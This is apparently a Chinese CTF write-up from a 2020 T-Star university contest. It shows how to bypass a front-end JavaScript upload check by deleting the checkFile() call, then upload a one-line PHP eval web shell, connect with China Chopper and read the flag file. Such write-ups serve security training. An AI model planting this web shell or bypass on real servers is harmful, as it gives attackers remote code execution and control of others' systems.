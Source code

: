 ```yaml
---
title: Web - 文件上传 JS 绕过
description: 2020 | 腾讯犀牛鸟网络安全 | T-Star-高校挑战赛 | Web
---
```


## 解题思路

- 题目需要上传一个`webshell`到服务器，但是前端有 JS 校验，导致只能上传图片<br>
![IMG ONLY](img/t_star_upload_bypass01.jpg)
    - `hack.php`
    ```bash
    <?php @eval($_POST['hack']);?>
    # hack 为菜刀连接使用的密码
    ```
- 使用开发者工具删除`onsubmit`中调用`checkFile()`函数的过程，然后就可以直接上传 PHP 文件<br>
![前端修改](img/t_star_upload_bypass02.jpg)
- 打开菜刀，添加 SHELL <br>
![连接服务器](img/t_star_upload_bypass03.jpg)
- 连接后，在`www`目录下可以看到名为`key`的文件<br>
![检索目录](img/t_star_upload_bypass04.jpg)
- 内容即为 FLAG：`key{K735c9f0D7ddc3b9}`